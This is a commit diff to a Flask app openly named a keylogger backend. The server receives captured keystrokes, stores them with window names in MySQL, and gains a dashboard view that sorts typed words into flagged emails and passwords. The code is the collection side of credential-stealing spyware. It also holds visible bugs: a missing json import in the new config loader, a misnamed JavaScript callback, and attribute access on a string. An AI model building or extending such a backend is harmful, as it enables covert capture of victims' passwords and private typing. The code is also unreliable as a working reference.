

Before and after one commit to skan3798/keylogger_backend, a Flask app: template app/templates/forms.html in a window 1280 px wide. Run offline with Flask 2, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty.

Commit message:
adding words processing

```diff
--- /dev/null
+++ b/app/load_config.py
@@ -0,0 +1,11 @@
+import os
+
+#load the configurations from json file
+def load_cfg(path):
+    jsonres = {}
+    try:
+        with open(os.path.abspath(os.path.realpath(path)), 'r') as f:
+            jsonres = json.load(f)
+    except Exception as e:
+        print("Exception: ", e)
+    return jsonres
--- a/app/main.py
+++ b/app/main.py
@@ -2,21 +2,13 @@ from flask import Flask, render_template, request, make_response, jsonify
 import json
 from json import JSONEncoder
 import mysql.connector
-import os
 from datetime import datetime
+from process import Process
+from load_config import load_cfg
 
 #start flask app
 app = Flask(__name__, template_folder='templates')
 
-#load the configurations from json file
-def load_cfg(path):
-    jsonres = {}
-    try:
-        with open(os.path.abspath(os.path.realpath(path)), 'r') as f:
-            jsonres = json.load(f)
-    except Exception as e:
-        print("Exception: ", e)
-    return jsonres
 
 def datetime_converter(o):
   if isinstance(o,datetime):
@@ -29,11 +21,15 @@ def hello():
 @app.route('/pushKeys', methods=['POST'])
 def addLog():
   data = json.loads(request.data)
+  # Process.separateBreakChar(data)
 
   for key in range(len(data)):
+    if (data[str(key)].isKeyDown == 1):
+      Process.separateBreakChar(data[str(key)])
 
     try:
-      pushDB(json.loads(data[str(key)]))
+      pushDB_keys(json.loads(data[str(key)]))
+
 
 
     except Exception as e:
@@ -44,7 +40,7 @@ def addLog():
   return make_response(jsonify({'response': 'Success', 'code':200}), 200)
 
 
-def pushDB(payload):
+def pushDB_keys(payload):
   main_cfg = load_cfg('./main_cfg.json')
 
   db = mysql.connector.connect (
@@ -57,7 +53,7 @@ def pushDB(payload):
 
   mycursor = db.cursor()
 
-  sql = f"INSERT INTO {main_cfg['dbTable']} {main_cfg['dbRows']} VALUES (%s, %s, %s, %s, %s, %s,%s, %s, %s)"
+  sql = f"INSERT INTO {main_cfg['dbKeyTable']} {main_cfg['dbRows']} VALUES (%s, %s, %s, %s, %s, %s,%s, %s, %s)"
   val = (f"{payload['datetime']}", f"{payload['epochTime']}", f"{payload['isKeyDown']}", f"{payload['windowName']}", f"{payload['asciiCode']}", f"{payload['asciiChar']}", f"{payload['keyName']}", f"{payload['isCaps']}", f"{payload['processedKey']}")
   print(sql,val)
   mycursor.execute(sql, val)
@@ -84,7 +80,30 @@ def pushKeylog():
 
   mycursor = db.cursor()
 
-  sql = f"SELECT * FROM {main_cfg['dbTable']}"
+  sql = f"SELECT * FROM {main_cfg['dbKeyTable']}"
+  mycursor.execute(sql)
+  res_query = [dict((mycursor.description[i][0],value) for i, value in enumerate(row)) for row in mycursor.fetchall()]
+  res = json.dumps(res_query, default=datetime_converter)
+  print(res)
+
+  return res
+
+@app.route('/showWordlog', methods=['GET'])
+def pushWordlog():
+  main_cfg = load_cfg('./main_cfg.json')
+  res = {}
+
+  db = mysql.connector.connect (
+    host=main_cfg['dbHost'],
+    port=main_cfg['port'],
+    user=main_cfg['sqlUser'],
+    password=main_cfg['sqlPass'],
+    database=main_cfg['db']
+  )
+
+  mycursor = db.cursor()
+
+  sql = f"SELECT * FROM {main_cfg['dbWordTable']}"
   mycursor.execute(sql)
   res_query = [dict((mycursor.description[i][0],value) for i, value in enumerate(row)) for row in mycursor.fetchall()]
   res = json.dumps(res_query, default=datetime_converter)
--- a/app/static/main.js
+++ b/app/static/main.js
@@ -2,12 +2,11 @@ $(document).ready(function(){
     //when page loads, show the contents of the keylogger
     $('.container > #keyAll').show();
     showKeys();
-
-
-    })
+    showWords();
+      })
 
   // request and display all the keys collected
-  function showKeys() {
+function showKeys() {
     $.ajax({
       url: "./showKeylog",
       method: "GET",
@@ -16,26 +15,10 @@ $(document).ready(function(){
       fail: console.log("FAILED")
     });
     console.log("help");
-  }
+}
 
-  function showKeyTable(keys){
+function showKeyTable(keys){
     $('#keyAll > table > tbody').empty();
-
-    /*for (const [key,value] of Object.entries(keys)){
-      var k = JSON.parse(value);
-	  console.log(k);
-      $('#keylogView > table > tbody').append(
-        '<tr><td>'
-        + k.datetime
-        +'</td><td>'
-        + k.isKeyDown
-        +'</td><td>'
-        + k.windowName
-        +'</td><td>'
-	    + k.processedKey
-	    +'</td></tr>'
-      );
-    } */
     keys.forEach((item) => {
         console.log(item)
         $('#keylogView > table > tbody').append(
@@ -50,4 +33,36 @@ $(document).ready(function(){
     	    +'</td></tr>'
         )
     })
-  }
+}
+
+    // request and display all the words collected
+function showWords() {
+    $.ajax({
+      url: "./showWordlog",
+      method: "GET",
+      dataType: 'json',
+      success: showWordable,
+      fail: console.log("FAILED")
+    });
+    console.log("help");
+}
+
+function showWordTable(words){
+    $('#wordAll > table > tbody').empty();
+    words.forEach((item) => {
+        console.log(item)
+        $('#wordlogView > table > tbody').append(
+            '<tr><td>'
+            + item.datetime
+            +'</td><td>'
+            + item.windowName
+            +'</td><td>'
+            + item.processedWord
+            +'</td><td>'
+    	    + item.isEmail
+    	    +'</td><td>'
+    	    + item.isPassword
+    	    +'</td></tr>'
+        )
+    })
+}
--- a/app/templates/base.html
+++ b/app/templates/base.html
@@ -23,19 +23,12 @@
         <b>Keypresses</b>
         <ul>
           <li data-displays="keyAll">View all key events</li>
-          <li data-displays="keyDown">View key down events</li>
+          <li data-displays="wordAll">View words typed</li>
         </ul>
-        <!-- <b>Words</b>
-        <ul>
-          <li data-displays="words">View words typed</li>
-          <li data-displays="username">View potential usernames</li>
-          <li data-displays="password">View potential passwords</li>
-        </ul> -->
       </nav>
     </header>
     <!-- {% block content %}{% endblock %} -->
     <div class="container">
-
       <!-- View all keypresses -->
       <div id="keyAll" class="table-responsive">
           <h2>View all key events</h2>
@@ -54,21 +47,23 @@
           </table>
       </div>
 
-      <!-- View keydown events -->
-      <div id="keyDown">
-          <h2>View all key down</h2>
-          <div class="alert alert-success" id="keyall-success" style="visibility: hidden"></div>
+      <div id="wordAll">
+        <h2>View all words pressed</h2>
+        <div class="alert alert-success" id="showWordTable" style="visibility: hidden"></div>
         <table class="table table-striped table-bordered">
             <thead>
                 <tr>
                     <th>datetime</th>
                     <th>windowName</th>
-                      <th>processedKey</th>
+                    <th>processedWord</th>
+                    <th>isEmail</th>
+                    <th>isPassword</th>
                 </tr>
             </thead>
             <tbody>
             </tbody>
         </table>
     </div>
+
   </body>
 </html>
--- a/app/templates/forms.html
+++ b/app/templates/forms.html
@@ -21,16 +21,18 @@
         </table>
     </div>
 
-    <!-- View keydown events -->
-    <div id="keyDown">
-        <h2>View all key down</h2>
-        <div class="alert alert-success" id="keyall-success" style="visibility: hidden"></div>
+    <!-- View Words  -->
+    <div id="wordAll">
+        <h2>View all words pressed</h2>
+        <div class="alert alert-success" id="showWordTable" style="visibility: hidden"></div>
         <table class="table table-striped table-bordered">
             <thead>
                 <tr>
                     <th>datetime</th>
                     <th>windowName</th>
-                    <th>processedKey</th>
+                    <th>processedWord</th>
+                    <th>isEmail</th>
+                    <th>isPassword</th>
                 </tr>
             </thead>
             <tbody>
```
Also changed, not shown: app/process.py (+58 -2 lines). Lines whose indentation alone changed are shown as unchanged.
